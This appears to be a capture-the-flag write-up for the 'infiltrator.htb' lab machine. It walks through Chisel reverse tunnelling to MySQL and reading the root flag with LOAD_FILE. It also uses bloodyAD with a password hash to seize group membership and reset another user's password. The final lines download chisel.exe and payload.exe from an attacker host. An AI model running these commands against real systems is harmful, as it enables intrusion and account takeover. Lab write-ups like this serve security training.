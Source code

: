 ```
Log=log
def_conf=settings
MySQL_data=data
Backup=backup
```

### Unintended Path
Since the database is running with admin powers like it’s the kingpin of this system, we just casually port-forward that juicy MySQL on port 14406 and grab the root flag like a boss.  
Dropped Chisel on the target because who doesn’t love a good reverse tunnel flex?

```console
$ ./chisel server --reverse
PS C:\> .\chisel.exe client 10.10.14.14:8080 R:8090:127.0.0.1:14406

$ mysql -u root -p'ibWijteig5' -P 8090 --ssl=off
MariaDB [outputwall]> use outputwall;
MariaDB [outputwall]> select LOAD_FILE("C:/Users/Administrator/Desktop/root.txt");
```

Easy mode activated — root flag, served on a silver platter. Now buckle up, because it’s time to dive into the _actual_ intended way to get root. Spoiler: it’s not this chill.

### Intended Path (Windows Client needed)
From here on out, we’re hopping into a Windows VM because… well, reasons. Spoiler alert: it gets messy and way more fun. If you still have the TGT ticket for `m.harris` chilling somewhere, just yank it over and convert to a Kirbi file like a pro hacker. But nah, I’m gonna show you how to climb back up from `e.rodriguez` to `m.harris` — Windows style.

!!!warning
If you get hit with that annoying `KRB_AP_ERR_SKEW (Clock skew too great)` error, it means your VM clock is throwing a tantrum and isn’t synced with the domain controller. Fix that _before_ joining the domain — otherwise you’re in for a world of pain and might need to do a time travel rollback.
!!!

First we will download the `bloodAD.exe` compiled binary and run the following commands:

```console
PS C:\> C:\Tools\bloodyAD.exe --host 10.10.11.31 -d infiltrator.htb -u 'e.rodriguez' -p ':b02e97f2fdb5c3d36f77375383449e56' add groupMember 'CHIEFS MARKETING' 'e.rodriguez'
[+] e.rodriguez added to CHIEFS MARKETING

PS C:\> C:\Tools\bloodyAD.exe --host 10.10.11.31 -d infiltrator.htb -u 'e.rodriguez' -p ':b02e97f2fdb5c3d36f77375383449e56' set password 'm.harris' 'Pwn3d_by_ACLs!'
[+] Password changed successfully!

PS C:\> python C:\Tools\Python\getTGT.py 'infiltrator.htb/m.harris:Pwn3d_by_ACLs!' -dc-ip 10.10.11.31
[*] Saving ticket in m.harris.ccache
```

Next up, before Kerberos can party on our Windows attack VM, we gotta join it to the domain.  Hop into: `Settings > Accounts > Access work or school > Connect`. Punch in `infiltrator.htb` as the domain and log in with any domain account (e.g. `l.clark`).


[dc01.infiltrator.htb]: PS C:\Users\M.harris\Documents> certutil -f -urlcache http://10.10.14.7:8000/chisel.exe C:\Windows\Temp\chisel.exe
[dc01.infiltrator.htb]: PS C:\Windows\Temp> .\chisel.exe client 10.10.14.7:8080 R:14121:127.0.0.1:14406
[10.10.11.31]: PS C:\Windows\Temp> curl.exe http://10.10.14.7:8000/payload.exe -o payload.exe